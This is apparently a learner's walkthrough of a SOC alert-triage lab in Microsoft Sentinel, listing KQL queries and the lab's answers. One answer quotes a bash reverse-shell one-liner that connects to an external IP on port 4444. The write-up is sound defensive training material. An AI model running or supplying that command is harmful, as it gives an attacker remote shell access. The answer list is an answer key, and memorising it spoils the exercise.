


# SOC Alert Triaging – Tinsel Triage

## Task 1 (Introduction)
I was asked to sign in to the Azure portal using a temporary username and password.

### Steps
1. I logged in to the Azure portal using the provided credentials (tried many, worked only 1)
2. After signing in successfully, I moved to the next task  

## Task 2 (Alert Triaging Primer)
This task explained what alert triaging is and how SOC analysts evaluate and prioritize alerts.

### Steps
1. I learned the key factors used in alert triaging  
2. These included severity level, timestamp, frequency, attack stage, and affected asset  
3. I learned how alerts are reviewed in order of priority  
4. I understood how analysts correlate multiple alerts to connect incidents  

## Task 3 (Environment Review)
This task showed how to navigate the Azure portal and access logs.

### Steps
1. I searched for Microsoft Sentinel in the Azure portal  
2. I opened the Logs section  
3. I selected Custom logs  

## Task 4 (Investigation Proper)
In this task, I investigated real incidents using Microsoft Sentinel.

### Steps
1. I navigated to the Incidents tab  
2. I selected the given custom time range  
3. I searched for the alert named `Linux PrivEsc – Kernel Module Insertion`
4. I observed that there were 3 events and 3 entities involved  
5. I noted that it was classified under the Privilege Escalation tactic  
    
6. I opened `View full details` to see related alerts and the timeline  

### Answers
- Number of entities affected by Linux PrivEsc – Polkit Exploit Attempt  
  `10`

- Severity of Linux PrivEsc – Sudo Shadow Access  
  `High`

- Number of entity types involved in the incident  
  `4`

## Task 5 (Diving Deeper Into Logs)
This task focused on deep log investigation using KQL queries.

### Steps
1. I opened the incident details and navigated to the Events tab  
2. I switched to KQL mode to run custom queries(as mentioned in the task...) 
    
3. The following query with a custom time range  
    ```bash
    set query_now = datetime(2025-10-30T05:09:25.9886229Z);
    Syslog_CL
    | where host_s == 'websrv-01'
    | project _timestamp_t, host_s, Message
    ```
4. I reviewed kernel-related messages  
5. I found a suspicious kernel module name in the logs  
6. I also found a suspicious command executed by the ops user  
    
7. I then ran another query for SSH-related activity  
    ```bash
    set query_now = datetime(2025-10-30T05:09:25.9886229Z);
    Syslog_CL
    | where host_s == 'app-01'
    | project _timestamp_t, host_s, Message
    ```
    
8. I identified SSH login attempts and source IP addresses  
9. I filtered out private IPs and focused on external ones  
10. I also searched the logs to find newly added sudo users  

### Answers
- Kernel module installed in websrv-01  
`malicious_mod.ko`

- Unusual command executed by ops user  
`/bin/bash -i >& /dev/tcp/198.51.100.22/4444 0>&1`

- Source IP of first successful SSH login to storage-01  
`172.16.0.12`

- External IP that logged in as root to app-01  
`203.0.113.45`

- User added to sudoers group besides backup user  
`deploy`
